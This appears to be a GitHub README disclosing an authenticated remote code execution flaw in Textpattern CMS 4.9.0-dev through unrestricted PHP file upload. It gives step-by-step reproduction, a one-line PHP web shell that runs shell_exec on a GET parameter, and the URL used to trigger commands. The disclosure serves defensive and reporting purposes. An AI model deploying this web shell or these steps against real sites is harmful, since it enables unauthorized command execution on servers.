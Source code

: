 # TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload
Textpattern version 4.9.0-dev is vulnerable to Remote Code Execution (RCE) due to the file upload functionality allowing unrestricted PHP file uploads, potentially leading to remote code execution.

<B>Vulnerable URL:</B><br> 
http://localhost/textpattern/textpattern/index.php?event=file&step=file_insert<br> 

<B>Reproduction:</B><br> 
1. Log in as the root user in Textpattern.<br> 
2. Create a PHP web shell by making a file named rce.php with the content `</?php echo shell_exec($_GET['cmd']); ?>` .<br> 
3. Navigate to 'Content > Files' and upload the rce.php web shell.<br>
    ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPatter-1.png?raw=True)
5. Access the web shell directly by going to https://<url>/textpattern/files/rce.php?cmd=id.<br> 
6. You can now interact with the web shell and execute commands using this `cmd=id`.<br>
   ![alt text](https://github.com/patrickdeanramos/TextPattern-CMS-4.9.0-dev-Authenticated-Remote-Command-Execution-RCE-Through-File-Upload/blob/main/RCE-TextPattern-2.png?raw=True)

<B>Authors:</B><br> 
Patrick Dean Ramos<br> 
Nathu Nandwani<br> 
Junnair Manla<br> 
Kevin Rosales<br> 
Steve Nyan<br> 
Shanavas Shakeer<br> 
Lani Lambert<br> 

